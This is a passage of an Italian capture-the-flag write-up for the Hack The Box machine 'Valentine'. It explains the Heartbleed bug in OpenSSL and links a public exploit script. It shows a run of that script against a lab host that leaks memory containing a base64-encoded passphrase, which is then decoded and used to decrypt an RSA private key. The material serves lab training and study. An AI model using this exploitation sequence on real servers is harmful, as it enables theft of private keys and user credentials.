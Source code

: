 Abbiamo un indizio **HEARTBLEED**

La vulnerabilità è stata introdotta in seguito all’implementazione dell’estensione Heartbeat per alcuni protocolli usati da OpenSSL. 
Hearbeat evita di dover rinegoziare ogni volta la connessione sicura tra client e server,
mantenendo vivi i collegamenti grazie a richieste effettuate a intervalli regolari;
in particolare il client invia una stringa al server e quest’ultimo la spedisce come risposta al client stesso.

Il bug consente a un utente malintenzionato di leggere fino a 64 KB di memoria dal sistema vulnerabile, con la possibilità di compromettere le chiavi segrete utilizzate per identificare i fornitori dei servizi e per crittografare il traffico, i nomi e le password degli utenti. Ciò consente agli aggressori di spiare le comunicazioni, di impersonare o rubare i dati direttamente dai servizi e dagli utenti.
Un attacco che sfrutta questa falla non lascia traccia e può essere portato a termine senza l’utilizzo di credenziali né, di particolari privilegi.

A questo indirizzo troviamo lo script 
https://gist.github.com/eelsivart/10174134#file-heartbleed-py-L8

Una volata lanciato lo script,riusciamo ad estrapolare questi dati dal server
```bash
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# python2 heartbleed.py -p 443 -n 10 10.10.10.79 
##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==8....=...P '{..m$C.3
```

Sembra quello che stavamo cercando
Una volta recati al /decode possiamo decifrare l'hash
Your input:

aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

Your encoded input:

heartbleedbelievethehype 

Possiamo usare openssl per provare a decifrare. 
Chiede una password… usiamo la password  raccolta con heartbleed, 
```bash
root@kali# openssl rsa -in hype_key_encrypted -out hype_key_decrypted
Enter pass phrase for hype_key_encrypted:
writing RSA key
```

